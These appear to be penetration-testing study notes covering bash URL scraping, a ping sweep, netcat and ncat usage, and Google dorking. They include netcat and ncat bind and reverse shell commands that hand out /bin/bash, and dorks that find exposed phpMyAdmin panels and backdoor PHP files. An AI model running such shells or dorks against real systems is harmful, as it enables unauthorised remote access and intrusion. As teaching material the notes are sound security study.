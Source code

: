 # Tools

## Bash

The task is to get all urls on the page www.cisco.com

* content of the page can be downloaded with   
  `wget www.cisco.com`
* one line of the file `index.html` looks like that  
  `<li><a,href="http://newsroom.cisco.com/">Newsroom</a></li>`
* we can use a one liner to solve the task    
    * `grep` searches for given string  
    * `cut` gets a delimiter with `-d` and returns the field `-f`
    * `sort -u` shows only unique strings  

```
grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
```
loop over the input of a file line by line
```
for url in $(cat list.txt); do host $url; done
```

Ping Sweep
```
#!/bin/bash

echo "Ping Sweep"

for ip in {0..254}
do
        ping -c1 192.168.178.$ip| grep "bytes from"|cut -d " " -f4|cut -d ":" -f1 &
done
```

!!! info
    * Bind Shell: Server is listening
    * Reverse Shell: Client is listening

## Netcat

* Switches used
    * `-l` listen for connection
    * `-n` Do not do any DNS or service lookups
    * `-v` verbose
    * `-p` source port

* Chat
    * Client: `nc -nv <server ip addr> <open port on server>`
    * Sever: `nc -nlvp <listening port>`

* File transfer
    * Client: `nc -nv <server ip addr> 4444 < sending.exe`
    * Sever: `nc -nlvp 4444 > incoming.exe`

* Bind Shell
    * Client: `nc -vn <server ip addr> 4444`
    * Server: `nc -nlvp 4444 -c <path to shell>`

* Reverse Shell
    * Server has no public ip
    * Client: `nc -nlvp 4444`
    * Server: `nc -vn <client ip addr> 4444 -e /bin/bash`

## Ncat

* improved **Netcat** adds:
    * encryption
    * access limitation

* Bind Shell
    * Client `ncat -v <server ip addr> <open port on server>`
    * Server `ncat -lvp <listening port> -e <path to shell> --allow <client ip addr> --ssl`

## Wireshark
* Follow TCP Stream

## Tcpdump

## Information Gathering

### Active

### Passive
* Google Hacking
    * `site:"<url of website>"`
        * gets all subdomains
        * size of webpresenz
    * `-site:"<url of website>"`
        * exclude these
    * `filetype:<file extesion>`
        * ex.: ppt, pdf, txt
    * `"<search string>"` search the exact string
    * `intitle:"<string>"`
    * `inurl:"</path/for/search>"`
    * `inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin`
        * searching for unprotected phpmyadmin panels
    * `intitle:"-N3t" filetype:php undetectable`
        * searching after string found in backdoor
    * [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)